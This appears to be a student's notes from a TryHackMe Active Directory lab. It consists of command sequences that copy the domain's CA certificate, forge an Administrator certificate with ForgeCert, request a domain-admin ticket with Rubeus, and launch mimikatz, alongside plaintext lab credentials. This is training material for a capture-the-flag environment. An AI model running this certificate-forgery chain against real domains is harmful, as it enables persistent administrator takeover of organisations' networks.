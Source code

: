 ```powershell
Get-ChildItem .\*.pfx

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/17/2024   6:06 PM           3299 local_machine_My_0_.pfx
-a----        6/17/2024   6:06 PM           2685 local_machine_My_1_za-THMDC-CA.pfx
-a----        6/17/2024   6:06 PM           3380 local_machine_My_2_THMDC.za.tryhackme.loc.pfx
-a----        6/17/2024   6:06 PM           3321 local_machine_My_3_.pfx

```


```bash
# kali vm

export AD=za.tryhackme.loc
export adminUser=Administrator
export adminPass=tryhackmewouldnotguess1@
export USERNAME=jason.jackson
export PASSWORD=Racer2018

scp $adminUser@$AD@thmdc.$AD:C:/Users/Administrator/f4u/local_machine_My_1_za-THMDC-CA.pfx .

scp local_machine_My_1_za-THMDC-CA.pfx $USERNAME@$AD@THMWRK1.$AD:C:/Users/jason.jackson
```


```powershell
# THMWRK1 jason

powershell -ep bypass

Get-ChildItem .\*.pfx 

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/17/2024   7:47 PM           2685 local_machine_My_1_za-THMDC-CA.pfx


C:\Tools\ForgeCert\ForgeCert.exe --CaCertPath .\local_machine_My_1_za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject 'CN=f4u' -
-SubjectAltName 'Administrator@za.tryhackme.loc' --NewCertPath .\f4uPwnd.pfx --NewCertPassword f4upass


C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:'.\f4uPwnd.pfx' /password:'f4upass' /outfile:dom
ain-admin.kirbi /domain:za.tryhackme.loc /dc:10.200.82.101

C:\Tools\mimikatz_trunk\x64\mimikatz.exe

```
